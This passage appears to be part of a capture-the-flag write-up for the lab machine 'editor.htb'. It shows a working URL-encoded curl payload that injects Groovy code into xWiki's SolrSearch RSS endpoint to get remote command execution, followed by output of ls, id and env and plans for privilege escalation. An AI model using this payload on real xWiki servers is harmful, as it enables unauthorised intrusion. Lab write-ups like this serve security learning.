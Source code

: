```
_laurel:x:995:995::/var/log/laurel:/bin/false
```

This POC is just crafting the payload to abuse the fact that xWiki allows Groovy scripts inside wiki macros: `{{groovy}} ... {{/groovy}}`. It first closes any open XWiki macros before injecting ours, then we insert the code we want to execute inside here `{{groovy}} ... {{/groovy}}` and it will be executed on the server. By doing so we can achieve RCE in xWiki. The POC is printing the `/etc/passwd/`, lets see if we can adapt it to extract some more information.

```
curl "http://editor.htb:8080/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7d%7d%7d%7b%7basync%20async%3dfalse%7d%7d%7b%7bgroovy%7d%7dprintln(%22ls%22.execute().text)%7b%7b%2fgroovy%7d%7d%7b%7b%2fasync%7d%7d"
```

```
jetty
logs
start.d
start_xwiki.bat
start_xwiki_debug.bat
start_xwiki_debug.sh
start_xwiki.sh
stop_xwiki.bat
stop_xwiki.sh
webapps
```

If we run the same request but by executing the `id` command we got this:

`uid=997(xwiki) gid=997(xwiki) groups=997(xwiki)`

This confirms us that we don't have root access while executing these commands, so a privilage escalation will be needed later.

This is the output of the `env` command:

```
PWD=/usr/lib/xwiki-jetty
LOGNAME=xwiki
SYSTEMD_EXEC_PID=1043
HOME=/var/lib/xwiki
LANG=en_US.UTF-8
INVOCATION_ID=ecfc283ef73d4cf7b0ab309bea524681
USER=xwiki
SHLVL=0
JOURNAL_STREAM=8:22032
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
OLDPWD=/var/lib/xwiki
```

`ls -la on start_xwiki.sh`

`-rw-r--r-- 1 root root 9340 Mar 27 2024 start_xwiki.sh`

So we cannot use it. Lets take a look at the structure of the directories, maybe we can spot something usefull.

